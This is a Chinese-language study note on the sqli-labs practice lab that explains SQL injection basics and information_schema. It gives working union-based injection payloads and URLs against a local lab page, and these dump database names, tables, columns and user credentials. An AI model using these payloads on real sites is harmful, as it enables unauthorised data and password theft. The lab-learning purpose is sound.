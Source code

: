 # Sqli-Lab

+ 想刷JS挑战题的时候发现，还是得先学SQL注入啊！

## 基本信息

+ **url编码**：一般的url编码其实就是那个字符的ASCII值得十六进制，再在前面加个%，具体可以看<http://www.w3school.com.cn/tags/html_ref_urlencode.html>常用的写出来吧： 空格是%20，单引号是%27， 井号是%23(用来注释)，双引号是%22
+ sql注入的基本步骤
  + 判断是什么类型注入，有没过滤了关键字，可否绕过
  + 获取数据库用户，版本，当前连接的数据库等信息
  + 获取某个数据库表的信息
  + 获取列信息
  + 最后就获取数据了
+ **为了方便学习查看，可以在源码中的$sql下一句语句写以下php语句（就是输出拿到数据库查询的完整语句是怎么样的）**

```
echo "你的 sql 语句是：".$sql."<br>";
```

+ information_schema -- 系统数据库，记录当前数据库的数据库，表，列，用户权限等信息

  + SCHEMATA表:储存mysql所有数据库的基本信息，包括数据库名，编码类型路径等，show databases的结果取之此表。
+ TABLES表:储存mysql中的表信息，（当然也有数据库名这一列，这样才能找到哪个数据库有哪些表嘛）包括这个表是基本表还是系统表，数据库的引擎是什么，表有多少行，创建时间，最后更新时间等。show tables from schemaname的结果取之此表
  + COLUMNS表：提供了表中的列信息，（当然也有数据库名和表名称这两列）详细表述了某张表的所有列以及每个列的信息，包括该列是那个表中的第几列，列的数据类型，列的编码类型，列的权限，猎德注释等。是show columns from schemaname.tablename的结果取之此表。 
+ 详情：<http://wenku.baidu.com/link?url=bIA38Slp-g2Bob4VDuTSVY8e04Beqq9Xac4I90UMC9ziQuzxiukpEh5abPK-woB9tuQ4DuY_KhKW-eTHH6ACSiMJmRhctiHvijOEFmENBbS>

## Lab1 

+ 第一题可能是最挑战的把，毕竟从0到1，好好记笔记
+ 输入?id=1'发现报错 -- 存在SQL注入
+ 利用order by确定这张表中的字段数
+ 于是在注入的地方使其报错，然后注入自己想要的语句，在把后面的limit 0,1给注释掉

```mysql
1' order by 3 --+ //得到列数为3， --+是为了注释后面的语句

//1. 先利用union语句查询哪些是可以显示在网页上的
1' union select 1,2,3%23//发现第二个和第三个才会显示到网页上

//所以让第一行查询的结果为空，union右边的查询结果就自然成为了第一行
-1' union select 1,2,3%23

//因为能显示的位置只有2个，远远不够，所以我们需要用到concat()个concat_ws()函数
select concat_ws(':',1,2,3)//结果为1:2:3
concat_ws第一个参数相当于分隔符，然而一般我们需要把第一个参数用mysql的char函数将十进制ASCII码转换成字符，不然会被h	tml编码，这里熟练使用以下语句即可！
select concat_ws(char(32,58,32),user(),database(),version())//user返回当前数据库连接用户，database()返回当前数据库使用的数据库，version()返回当前数据库的版本

http://127.0.0.1/sqli/Less-1/?id=-1%27%20union%20select%201,2,concat_ws(char(32,58,32),user(),database(),version())%23
-->2. 返回当前用户，数据库及其版本

http://127.0.0.1/sqli/Less-1/?id=0%27%20union%20select%201,2,group_concat(schema_name)%20from%20information_schema.schemata%23
-->3. 返回当前数据库的所有数据库名

http://127.0.0.1/sqli/Less-1/?id=0%27%20union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=%22security%22%23
注意security数据库名需要用单引号引起来
或者
http://127.0.0.1/sqli/Less-1/?id=-1%27%20union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=0x7365637572697479%23
区别在于'security'变成了十六进制
-->4. 获取当前数据库中的所有表

http://127.0.0.1/sqli/Less-1/?id=0%27%20union%20select%201,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=%22security%22%20and%20table_name=%22users%22%23
-->5. 获取需要的表中的id名字

http://127.0.0.1/sqli/Less-1/?id=0%27%20union%20select%201,2,group_concat(concat_ws(char(32,58,32),id,username,password))%20from%20security.users%23
-->6. 获取user表中的3个字段

//这里-1是为了查询一个不存在的id好让第一句结果为空直接显示第二句的结果
-1' union select 1,2,group_concat(schema_name) from information_schema.schemata --+ // 得到数据库名

-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema= 'security'# //得到表名

-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name= 'users'# //得到列名

-1' union select 1,username,password from users where id=3# //爆破得到数据
```

+ group_concat的作用：把一列列显示的名字变成一行
+ union的作用：连接多个select语句，有重复的会删除

